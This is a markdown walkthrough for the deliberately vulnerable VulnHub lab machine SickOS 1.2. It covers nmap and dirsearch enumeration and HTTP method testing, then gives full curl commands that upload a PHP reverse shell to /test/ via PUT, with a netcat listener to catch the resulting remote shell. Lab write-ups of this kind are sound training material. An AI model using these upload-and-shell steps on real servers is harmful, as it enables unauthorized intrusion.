









# SickOS: 1.2

## Machine Information

- **Machine:** SickOS: 1.2
- **Platform:** VulnHub
- **Download:** https://www.vulnhub.com/entry/sickos-12,144/



---

# Lab Setup

1. Download the virtual machine.
2. Extract the archive.
3. Import it into VirtualBox.
4. Start the virtual machine.


---

## Network Configuration

If the virtual machine does not receive an IP address automatically, verify the VirtualBox network adapter settings.



---

# Network Enumeration

## Discover the Target

```bash
nmap -sn 192.168.2.0/24
```



---

## Port Scan

```bash
nmap -v -p- 192.168.2.175
```


---

## Service Enumeration

```bash
nmap -v -sT -sV -sC -A -O -p 80,22 192.168.2.175
```


---

# Web Enumeration

Visit the target:

```
http://192.168.2.175/
```


---

## Directory Enumeration

```bash
dirsearch -u http://192.168.2.175/
```



---

## Interesting Directory

```
http://192.168.2.175/test/
```

Directory listing is enabled.



---

# HTTP Method Enumeration

## Enumerate Supported HTTP Methods

```bash
nmap -v -Pn -sT -sV \
-p 80 \
--script http-methods.nse \
192.168.2.175
```



---

## Enumerate Methods for a Specific Directory

```bash
nmap -v -Pn -sT -sV \
-p 80 \
--script http-methods.nse \
--script-args http-methods.url-path='/test' \
192.168.2.175
```


---

## Verify HTTP Methods with curl

```bash
curl -v -X OPTIONS http://192.168.2.175/test
```


---

# HTTP Method Examples

## GET

```bash
curl -X GET http://192.168.2.175/test
```

---

## HEAD

```bash
curl -I http://192.168.2.175/test
```


---

## POST

```bash
curl \
--request POST \
--url http://192.168.2.175/test/post.php \
--header "Content-Type: application/x-www-form-urlencoded" \
--data "demo2"
```

---

# File Upload via PUT

Download the PHP reverse shell:

```
https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
```

Edit the payload and replace the IP address with your attack machine.

```bash
vim php-reverse-shell.php
```



---

## Upload the Reverse Shell

```bash
curl -T php-reverse-shell.php \
http://192.168.2.175/test/
```

or

```bash
curl -X PUT \
-T php-reverse-shell.php \
http://192.168.2.175/test/
```

or

```bash
curl -X PUT \
-d '<?php phpinfo(); ?>' \
http://192.168.2.175/test/phpinfo.php
```





---

# Reverse Shell

## Start a Listener

```bash
nc -nlvp 443
```

---

## Upload the Payload

```bash
curl -X PUT \
-T php-reverse-shell.php \
http://192.168.2.175/test/
```


---

## Trigger the Payload

Open the uploaded PHP file in the browser.


A reverse shell is established.

---

# Attack Flow

1. Import and start the virtual machine.
2. Discover the target IP.
3. Enumerate open ports and services.
4. Enumerate web directories.
5. Identify that the `/test/` directory allows additional HTTP methods.
6. Confirm supported methods using Nmap and `curl`.
7. Upload a PHP reverse shell using the HTTP `PUT` method.
8. Start a Netcat listener.
9. Trigger the uploaded payload.
10. Obtain a reverse shell.